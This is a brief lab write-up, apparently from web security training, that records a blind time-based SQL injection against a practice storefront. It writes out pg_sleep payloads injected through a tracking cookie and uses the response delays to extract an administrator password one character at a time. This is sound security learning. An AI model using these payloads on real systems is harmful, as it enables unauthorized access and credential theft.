

Blind SQL injection with time delays and information retrieval
- Provided with storefront website, told there is a table called users containing columns username and password, told to find password for user administrator and sign in
- Captured HTTP request on page reload in burpsuite and sent to Repeater
- Appended ';SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END-- to end of cookie TrackingId
- Page slept for 10 seconds
- Appended ‘; SELECT CASE WHEN (username=’administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
- Page slept for 10 seconds
- Appended ‘; SELECT CASE WHEN (username=’administrator' AND LENGTH(password)>1) THEN pg_sleep(6) ELSE pg_sleep(0) END FROM users--
- Page slept for 6 seconds
- Sent to Intruder, added positions around 1, number payload from 1-100
- Observed time of day in responses and noticed 6 second difference stops after 19:

- Discovered password is 20 digits long
- Appened ‘; SELECT CASE WHEN (username=’administrator' AND SUBSTRING(password, 1, 1)='a') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
- Set positions around a, set payload a-z and 0-9, used return category in results to find correct character
- Repeated above 19 more times
- Discovered credentials “administrator:v7u7wjzskqg3hu4tz2h1”
- Successfully logged in and completed lab: